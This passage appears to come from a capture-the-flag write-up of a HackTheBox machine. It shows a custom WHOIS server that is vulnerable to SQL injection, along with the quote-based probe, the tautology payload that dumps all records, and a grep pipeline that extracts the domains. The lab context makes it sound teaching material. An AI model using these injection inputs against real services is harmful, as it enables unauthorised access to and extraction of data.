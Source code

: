 ```
Whois database for failure to abide by these terms of use. VeriSign
reserves the right to modify these terms at any time.

The Registry database contains ONLY .HTB domains and
--

```

I’ll add the following to my `/etc/hosts` file:

```
10.10.10.155 supersechosting.htb www.supersechosting.htb ns1.supersechosting.htb whois.supersechosting.htb

```

#### SQLI in WhoIs Server

Before I moved on, I realized that the server was advertising a custom name:

```

SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37

```

That’s strange. It also shows it’s running SQL. I wonder if I can inject into it? I’ll try a `'`:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb'"
% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit http://www.supersechosting.htb
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''supersechosting.htb'') limit 1' at line 1

```

SQL error. nice.

Ok, I’ll try to add to the end to make it true for everything. There’s also a hint in the error message above, suggesting there’s a `) limit 1` following my input.

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb') or '1'='1'#"

```

When I run the above, whois information for several sites dump out. To process it all, I’ll write a `grep` that pulls out any domains, translate them to lowercase, and unique them:

```

root@kali# whois -h 10.10.10.155 -p 43 "supersechosting.htb') or 1=1#" | grep -oiP '[\w\.]{1,50}\.htb' | tr 'A-Z' 'a-z' | sort -u
justanotherblog.htb
ns1.supersechosting.htb
pwnhats.htb
rentahacker.htb
supersechosting.htb
whois.supersechosting.htb
www.supersechosting.htb

```
